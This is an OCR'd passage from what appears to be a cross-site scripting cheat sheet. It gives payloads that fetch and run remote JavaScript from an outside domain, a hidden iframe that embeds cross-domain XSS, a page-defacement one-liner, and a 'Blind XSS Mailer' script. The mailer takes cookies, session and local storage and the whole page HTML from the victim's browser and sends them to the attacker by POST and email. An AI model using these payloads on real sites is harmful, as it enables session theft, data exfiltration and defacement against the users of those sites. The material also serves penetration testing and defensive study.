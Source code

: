 x.onreadystatechange=function(){if(this.readyState==4){write(x.responseText)}}"
fetch('//brutelogic.com.br/0.php').then(r=>{r.text().then(w=>{write(w)})})
(with fully loaded JQuery library)
$.get('//brutelogic.com.br/0.php',r=>{write(r)})
```

=> Javascript-based 
(response must be javascript)
with(document)body.appendChild(createElement('script')).src='//brutelogic.com.br/2.js'
(with fully loaded JQuery library)
```
$.getScript('//brutelogic.com.br/2.js')
(CORS and js extension required)
import('//domain/file')
```



## Invisible Foreign XSS Embedding
Use to load a XSS from another domain (or subdomain) into the current one. Restricted by 
target’s X-Frame-Options (XFO) header. Example below alerts in brutelogic.com.br context 
regardless of domain. 
```
<iframe src="//brutelogic.com.br/xss.php?a=<svg onload=alert(document.domain)>" 
style=display:none></iframe>
```


## Simple Virtual Defacement
Use to change how site will appear to victim providing HTML code. In the example below a 
`Not Found` message is displayed.
```
documentElement.innerHTML='<h1>Not Found</h1>'
```


## Blind XSS Mailer
Use it as a blind XSS remote script saving as PHP file and changing $to and $headers vars 
accordingly. A working mail server like Postfix is required.
```
<?php header("Content-type: application/javascript"); ?>
var mailer = '<?= "//" . $_SERVER["SERVER_NAME"] . $_SERVER["REQUEST_URI"] ?>';
var msg = 'USER AGENT\n' + navigator.userAgent + '\n\nTARGET URL\n' + document.URL; 
msg += '\n\nREFERRER URL\n' + document.referrer + '\n\nREADABLE COOKIES\n' + 
document.cookie;
msg += '\n\nSESSION STORAGE\n' + JSON.stringify(sessionStorage) + '\n\nLOCAL 
STORAGE\n' + JSON.stringify(localStorage); 
msg += '\n\nFULL DOCUMENT\n' + document.documentElement.innerHTML;
var r = new XMLHttpRequest();
r.open('POST', mailer, true);
r.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
r.send('origin=' + document.location.origin + '&msg=' + encodeURIComponent(msg));
<?php
header("Access-Control-Allow-Origin: " . $_POST["origin"]);
$origin = $_POST["origin"];
$to = "myName@myDomain";
$subject = "XSS Blind Report for " . $origin;
$ip = "Requester: " . $_SERVER["REMOTE_ADDR"] . "\nForwarded For: ". 
$_SERVER["HTTP_X_FORWARDED_FOR"];
$msg = $subject . "\n\nIP ADDRESS\n" . $ip . "\n\n" . $_POST["msg"];
$headers = "From: report@myDomain" . "\r\n";
if ($origin && $msg) mail($to, $subject, $msg, $headers);
?>
```

```